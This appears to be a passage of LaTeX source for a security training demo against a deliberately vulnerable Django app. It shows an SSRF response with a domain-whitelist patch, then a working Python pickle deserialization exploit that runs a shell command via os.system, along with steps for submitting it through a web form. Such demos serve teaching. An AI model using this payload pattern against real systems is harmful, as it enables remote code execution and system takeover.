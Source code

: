 \documentclass[12pt,a4paper]{article}
\begin{document}
\textbf{Response:}
\begin{lstlisting}
Status: 200

Content:
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Django administration</title>
...
\end{lstlisting}

\textbf{Patch:}
\begin{lstlisting}[language=Python]
# Whitelist allowed domains
ALLOWED_DOMAINS = ['example.com', 'trusted-scada-node.com']
parsed_url = urlparse(target_url)
if parsed_url.netloc not in ALLOWED_DOMAINS:
    return HttpResponse("Domain not allowed", status=403)
\end{lstlisting}

---

\subsubsection{11. Deserialization RCE (3 min)}

\textbf{Tool:} Python script + Burp Suite

\textbf{Narration:}
\begin{quote}
\textit{"Deserialization RCE is the most critical vulnerability. Python's pickle module can execute arbitrary code during deserialization. This allows complete system takeover."}
\end{quote}

\textbf{Exploit Steps:}

\textbf{Step 1: Generate Payload}
\begin{lstlisting}[language=Python]
# create_rce_payload.py
import pickle, base64, os

class RCEExploit:
    def __reduce__(self):
        # This command will execute on deserialization
        return (os.system, ('touch /tmp/pwned.txt',))

exploit = RCEExploit()
payload = base64.b64encode(pickle.dumps(exploit)).decode()

print("=== PAYLOAD ===")
print(payload)
print("\nPaste this into the web form.")
\end{lstlisting}

\textbf{Step 2: Execute Exploit}
\begin{enumerate}
    \item Run script: \texttt{python3 create\_rce\_payload.py}
    \item Copy output (base64 string)
    \item Navigate to \texttt{/vulnerable/deserialize/}
    \item Paste payload into form
    \item Click "Submit Diagnostic Data"
    \item Page shows: "Object Deserialized Successfully!"
\end{enumerate}
\end{document}
